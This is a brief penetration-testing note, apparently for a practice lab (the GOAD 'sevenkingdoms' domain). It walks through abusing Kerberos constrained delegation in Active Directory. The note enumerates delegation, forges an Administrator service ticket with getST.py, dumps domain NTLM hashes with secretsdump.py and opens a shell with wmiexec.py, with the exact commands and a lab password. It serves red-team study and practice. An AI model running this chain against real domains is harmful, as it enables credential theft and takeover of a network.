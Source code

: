 **Constrained Delegation** is a security feature in Active Directory environments where an attacker targets specific services. It works by allowing a service to impersonate users, but only to access predefined services using their Kerberos tickets (TGS—Ticket Granting Service).

### Enumeration

#### Impacket

```bash
findDelegation.py domain.local/username:password -target-domain domain.local
```


![[Pasted image 20240816142743.png]]

#### Bloodhound

![[Pasted image 20240816150123.png]]

### The Attack

Get TGS for the impersonated user:

```bash
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

Set environment variable for Kerberos cached credential file:

```bash
export KRB5CCNAME=./Administrator.ccache
```

Verify:

```bash
klist
Ticket cache: FILE:./Administrator.ccache
Default principal: Administrator@north.sevenkingdoms.local

Valid starting     Expires            Service principal
16/08/24 14:28:20  17/08/24 00:28:20  CIFS/winterfell@NORTH.SEVENKINGDOMS.LOCAL
```

Dump Password Hashes:

```bash
secretsdump.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell -just-dc-ntlm
```

Or log into the DC

```bash
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```